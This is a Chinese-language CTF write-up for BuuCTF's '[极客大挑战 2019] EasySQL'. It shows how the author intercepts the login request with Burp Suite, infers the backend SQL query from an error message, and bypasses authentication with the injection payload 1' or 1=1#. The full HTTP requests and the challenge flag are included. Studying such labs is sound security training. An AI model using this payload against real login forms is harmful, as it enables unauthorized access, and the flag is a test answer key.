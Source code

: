 ```yaml
---
tags:
  - BuuCTF
  - 简单
---
```


# \[极客大挑战 2019\] EasySQL

## 前置工作

启动靶机，看到如下网页：

![](https://p.sda1.dev/13/06389bed26e67392efcea676663e7467/image.png)

根据题目名字，可以确定这是一道 SQL 注入题，打开 F12 翻看源代码，发现登录框是一个表单，将用户名和密码以 `Request Params`（其实就是 `GET`） 的形式传入 `check.php`

![](https://p.sda1.dev/13/f14587237edfdbfe7dbf1f5971768b8b/image.png)

## 确定请求体

但无法确定具体的请求，于是我们使用 Burp Suite 进行一次抓包，打开 Burp Suite，进入代理，打开内嵌浏览器，开启拦截

![](https://p.sda1.dev/13/d277053d8385513f65a4346863978579/image.png)

中间过程直接放行，直到点击`登录`的时候，暂时先不放行，查看请求体

![](https://p.sda1.dev/13/c57108edc284109f362325509aa9ec39/image.png)

```http
GET /check.php?username=root&password=123456 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

得出具体的请求方式是 `GET /check.php?username={username}&password={password}`

## 尝试注入

尝试性地往用户名输入框中输入 `root'`，密码随便输，提示如下

![](https://p.sda1.dev/13/4435ef1306e400b126532e0c56fd74c9/image.png)

提示发现这是 MariaDB 数据库，当 MySQL 做就行了，从这一段话中我们还能够猜测一下这条查询语句到底是什么，才导致会出这条错

```sql
SELECT * FROM XXX WHERE username='$user' AND password='$pass';
```

在这种情况下如果我的 `username` = `root'`，那么语句就会变成这样

```sql
SELECT * FROM XXX WHERE username='root'' AND password='$pass';
```

## 万能密码

可以看到这样就会产生格式错误，那么我们就得想办法绕过这个查询，就得用到万能密码，我们尝试将 SQL 语句更改成一种 100% 通过的样子：

```sql
SELECT * FROM XXX WHERE username='1' or 1=1#' AND password='1';
```

即 `username` = `1' or 1=1#`，`password` = `1`，其中 `username` 的值就是万能密码，将 Burp Suite 拦截到的请求进行修改，改成

```http
GET /check.php?username=1%27+or+1%3D1%23&password=1 HTTP/1.1
Host: 49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://49057452-8bbe-4d5d-920b-be06e63840d6.node4.buuoj.cn:81/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

之后放行该请求，得到 Flag，`flag{6965df19-7ebe-42f7-b396-14d380a5d9e7}`

![](https://p.sda1.dev/13/0e789a154b3ae53ff5f35d58a4c9baf2/image.png)